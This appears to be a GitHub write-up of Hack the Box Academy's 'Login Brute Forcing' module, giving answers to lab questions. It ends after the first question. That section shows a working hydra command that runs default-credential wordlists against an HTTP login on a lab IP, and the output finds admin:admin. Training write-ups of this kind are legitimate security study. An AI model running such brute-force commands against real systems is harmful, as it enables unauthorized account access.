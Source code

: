 # Login Brute Forcing
* Source: [Hack the Box: Academy](https://academy.hackthebox.com/)
* Module: Login Brute Forcing
* Tier: II
* Difficulty: Easy
* Category: Offensive
* Time estimate: 6 hours
* Date: 09-07-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Default Passwords
### Question:
![](./attachments/Pasted%20image%2020220709101847.png)

*Hints: Write separated by a colon, as: username:password*

The user credentials are easily guessable as it is `admin:admin`. 

Brute forcing method:
```
┌──(kali㉿kali)-[~]
└─$ hydra -F -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/Default-Credentials/default-passwords.txt 46.101.47.107 -s 31657 http-get /
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-09 05:08:14
[DATA] max 16 tasks per 1 server, overall 16 tasks, 22236 login tries (l:17/p:1308), ~1390 tries per task
[DATA] attacking http-get://46.101.47.107:31657/
[31657][http-get] host: 46.101.47.107   login: admin   password: admin
[STATUS] attack finished for 46.101.47.107 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-07-09 05:08:30
```

**Answer:** `admin:admin`

---
## Login Brute Forcing
### Question:
![](./attachments/Pasted%20image%2020220709101929.png)
